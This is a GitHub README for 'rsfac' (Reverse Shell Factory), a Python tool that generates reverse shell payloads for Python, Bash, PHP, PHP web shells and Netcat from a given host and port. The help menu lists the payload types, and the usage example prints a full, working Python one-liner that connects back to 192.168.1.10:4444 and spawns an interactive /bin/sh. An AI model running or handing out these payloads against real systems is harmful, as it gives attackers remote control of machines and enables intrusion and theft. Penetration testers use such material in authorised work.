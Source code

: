 <h1 align="center">rsfac</h1>
<p align="center">Reverse Shell Factory</p>
<p align="center">It is simple to create many types of reverse shell by command line.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

***

## Help Menu
```
    ------Help Menu------
    Reverse Shell Factory
    v.1
    
    Usage Mathod:
    python3 rsfac.py <args>
    
    Example:
    python3 rsfac.py l=py h=192.168.1.10 p=4444
    
    
    -Commands-----------
    h=        Local Host
    p=        Local Port
    l=           Payload
    help       Help Menu
    
    
    -Reverse Shell Payloads------
    py              Simple Python
    py3            Simple Python3
    bash              Simple Bash
    php                Simple PHP
    php2       Second Type of PHP
    phpw     Shell For Web Server
    phpw2   Simple For Web Server
    nc          Some Types Netcat

```
## Usage Example

```
python3 rsfac.py h=192.168.1.10 p=4444 l=py
./rsfac h=192.168.1.10 p=4444 l=py

Reverse Shell Factory

Local Host: 192.168.1.10
Local Port: 4444
Type: py

Simple Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
